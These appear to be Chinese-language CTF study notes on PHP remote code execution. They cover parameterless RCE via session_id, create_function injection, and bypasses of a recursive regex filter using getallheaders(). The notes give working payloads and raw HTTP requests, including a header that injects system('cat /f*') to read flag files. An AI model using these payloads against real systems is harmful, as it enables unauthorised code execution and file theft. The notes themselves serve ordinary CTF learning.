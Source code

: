 
## 无参数rce
* [Ezrce](https://mp.weixin.qq.com/s/lTcijxa9eoWMm0TRKwJh_A)

```php
show_source(session_id(session_start()));

/*
// 请求
Cookie: PHPSESSID=/flag
...
Upgrade-Insecure-Requests:1

name=hahaha&qaq=show_source%28session_id%28session_start%28%29%29%29%3b
*/
```

## create_function 函数

`create_function` 函数根据传递的参数创建匿名函数，并为该匿名函数返回唯⼀的名称
函数语法: `string create_function(string $arges , string $code)`

```php
<?php
$id=$_GET['id'];
$code='echo'.$func.'test'.$id.'.';
create_function('$func',$code);
?>
```

`create_function` 函数会创建虚拟函数转变成如下代码

```php
<?php
$id=$_GET['id'];
function func($func){
    echo "test".$id;
}
```

当 id 传⼊`1;}phpinfo();/*`时 就可以造成代码执⾏
Payload:

`http://127.0.0.1/test.php?id=1;}phpinfo();/*`

拼接后为, 把后面都注释了。

```php
<?php
$id=$_GET['id'];
function func($func){
  echo "test".1;}phpinfo();/*;
}
?>
```

## `[^\W]+\((?R)?\)` bypass

```php
<?php
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {    
    eval($_GET['code']);
} else {
    show_source(__FILE__);
    
}
// ?code=var_dump(get_defined_vars());&aaa=phpinfo()
```

- \w 匹配大小写字母、数字和下划线，
- \W 匹配非大小写字母、数字和下划线。
- `[^\W]` 为\W取反=\w。\(和\)匹配()
- (?R)递归匹配, aaa(bbb())，或aaa()。

进阶版
```php
<?php
highlight_file(__FILE__);
if (';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['star'])) {
    if(!preg_match('/high|get_defined_vars|scandir|var_dump|read|file|php|curent|end/i',$_GET['star'])){
        eval($_GET['star']);
    }
}
```
bp发包
```sh
GET /bo0g1pop.php?star=eval(pos(array_reverse(getallheaders()))); HTTP/1.1
Host: faf83665-1a88-473a-b765-ddd33c6cf370.node4.buuoj.cn:81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
X-Forwarder-Proto: system('cat /f*');
Upgrade-Insecure-Requests: 1
```
解2
```sh
Paylaod:bo0g1pop.php?star=print_r(getallheaders()); 然后随便添加个参数：newstar=phpinfo();
?star=eval(array_rand(array_flip(getallheaders())));

array_reverse
array_flip()函数，它会将传进来的数组进行一个键和值的互换，这样的话phpinfo();就变成键了，
array_rand(),
```